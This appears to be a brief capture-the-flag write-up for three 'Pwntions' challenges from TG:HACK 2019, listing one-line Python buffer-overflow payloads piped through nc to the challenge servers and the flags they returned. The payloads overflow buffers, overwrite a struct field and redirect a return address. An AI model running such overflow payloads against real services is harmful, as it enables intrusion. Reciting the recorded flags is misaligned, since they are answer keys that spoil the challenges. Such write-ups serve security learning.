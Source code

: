 # Pwntions 1

Script: `python -c 'print "A" * 31' | nc pwntion1.tghack.no 1061`
Flag: `TG19{remember that C always terminates on null bytes^_^}`
# Pwntions 2

Script: `python -c 'print "A" * 48  + "\x01\x00\x00\x00"' | nc pwntion2.tghack.no 1062`
Flag: `TG19{Wow! You_may_also_stack_overflow_into_a_struct}`
# Pwntions 3

Script: `python -c 'print "A" * 44 + "\xb6\x86\x04\x08"' | nc pwntion3.tghack.no 1063`
Flag: `TG19{Awesome! You are now better at pwning than many CTFers!! Congratulations}`
